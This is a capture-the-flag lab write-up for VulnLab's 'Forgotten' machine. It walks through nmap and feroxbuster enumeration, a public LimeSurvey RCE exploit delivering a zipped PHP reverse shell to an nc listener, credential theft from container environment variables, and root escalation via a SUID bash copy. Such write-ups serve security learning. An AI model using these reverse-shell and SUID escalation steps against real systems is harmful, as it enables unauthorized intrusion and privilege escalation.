 ```yaml
---
title: VulnLab -- Forgotten Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [web exploitaion,cve]
image:
    path: ../images/Forgotten-banner.png
---
```

# Forgotten

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Forgotten** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/forgotten-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,80 --min-rate=1000 10.10.120.62
```

![image.png](../images/forgotten.png)

now let’s check the website running on port 80.

![image.png](../images/forgotten%201.png)

and we got forbidden so let’s now fuzz for directories.

```bash
feroxbuster --url http://10.10.120.62/
```

![image.png](../images/forgotten%202.png)

we got an endpoint named survey so let’s go to the website and see it

![image.png](../images/forgotten%203.png)

as we see there is a website named LimeSurvey running on the port 80 so let’s search for a public exploit for it.

Now let’s try to install it.

![image.png](../images/forgotten%204.png)

notice that we need a database to complete the installation.

so let’s create a database using a docker container

```bash
sudo docker run --name limesurvey -e MYSQL_ROOT_PASSWORD=remoremo -e MYSQL_DATABASE=limesurvey -e MYSQL_USER=lime -e MYSQL_PASSWORD=remoremo -p 3306:3306 -d mysql:latest
```

![image.png](../images/forgotten%205.png)

now let’s try to connect to the database.

![image.png](../images/forgotten%206.png)

now let’s continue to the next step

![image.png](../images/forgotten%207.png)

now let’s populate the database and set the admin password to remoremo

![image.png](../images/forgotten%208.png)

now let’s login as the administrator

![image.png](../images/forgotten%209.png)

after we got everything ready let’s search for a CVE in limeSurvey

![image.png](../images/forgotten%2010.png)

and we got RCE let’s get it and edit the php reverse shell IP and port

![image.png](../images/forgotten%2011.png)

now let’s make this reverse shell as a zip file

```bash
zip N4s1rl1.zip config.xml revshell.php
```

![image.png](../images/forgotten%2012.png)

now let’s open a listener on our machine

```bash
nc -lvnp 1337
```

![image.png](../images/forgotten%2013.png)

Now let’s run our exploit.

```bash
python3 exploit.py http://10.10.120.62/survey admin remoremo 80
```

![image.png](../images/forgotten%2014.png)

now let’s check our listner

![image.png](../images/forgotten%2015.png)

now let’s type hostname to check the environment 

```bash
hostname
```

![image.png](../images/forgotten%2016.png)

and we are in a docker container so let’s run env

```bash
env
```

![image.png](../images/forgotten%2017.png)

and we found limesurvey password so let’s connect to the user limesvc via ssh 

```bash
ssh limesvc@10.10.120.62
```

![image.png](../images/forgotten%2018.png)

and we broke out of the container now let’s see the user flag.

![image.png](../images/forgotten%2019.png)

Now let’s go back to our container and switch to root.

![image.png](../images/forgotten%2020.png)

now in the container copy the bash and add the SUID binary to it.

```bash
cp /bin/bash .;chmod +s bash
```

![image.png](../images/forgotten%2021.png)

now let’s go back to the main host and list the container files.

```bash
cd /opt/limesurvey ; ls -las
```

![image.png](../images/forgotten%2022.png)

notice that we got a root with the SUID binary set to it so now let’s go and get root assess

```bash
./bash -p
```

![image.png](../images/forgotten%2023.png)

now let’s go to the root directory and list the flag

```bash
cd /root ; ls -las
```

![image.png](../images/forgotten%2024.png)

and I did it we got the root flag!

![image.png](../images/forgotten%2025.png)

That’s it for the **Forgotten** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX